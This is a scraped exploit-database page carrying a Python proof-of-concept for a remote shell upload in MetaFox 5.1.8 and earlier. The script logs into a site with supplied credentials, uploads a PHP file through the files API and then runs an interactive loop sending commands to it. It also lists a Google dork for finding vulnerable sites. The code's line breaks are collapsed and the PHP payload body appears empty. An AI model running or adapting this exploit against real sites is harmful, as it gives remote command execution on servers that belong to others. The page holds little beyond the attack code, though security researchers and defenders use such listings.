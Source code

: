 ```yaml
---
title: MetaFox 5.1.8 Shell Upload exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:177564&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2024-03-14
fetch_date: 2025-10-04T12:07:33.799477
---
```


# MetaFox 5.1.8 Shell Upload exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for MetaFox 5.1.8 Shell Upload

2024-03-13 | CVSS 7.4

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:177564
#!/usr/bin/env python3# Exploit Title: MetaFox Remote Shell Upload# Google Dork: "Social network for niche communities"# Exploit Author: The Joker# Vendor Homepage: https://www.phpfox.com# Version: <= 5.1.8import jsonimport requestsimport sysif len(sys.argv) != 4: sys.exit("Usage: %s " % sys.argv[0]) requests.packages.urllib3.disable_warnings()endpoint = sys.argv[1] + "/api/v1/user/login"response = requests.post(endpoint, json={"username": sys.argv[2], "password": sys.argv[3]}, verify=False)json_response = json.loads(response.text)if not "access_token" in json_response: sys.exit("Login failed!")print("Login success! Uploading shell")token = json_response["access_token"]endpoint = sys.argv[1] + "/api/v1/files"files = {"file[0]": ("wtf.php", "")}response = requests.post(endpoint, files=files, headers={"Authorization": "Bearer " + token}, verify=False)json_response = json.loads(response.text)if not "data" in json_response or not "url" in json_response["data"][0]: sys.exit("Upload failed!")shell_url = json_response["data"][0]["url"]print("Shell uploaded at %s\n" % shell_url)while True: command = input("$ ") response = requests.post(shell_url, data={"command": command}, verify=False) print(response.text)
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)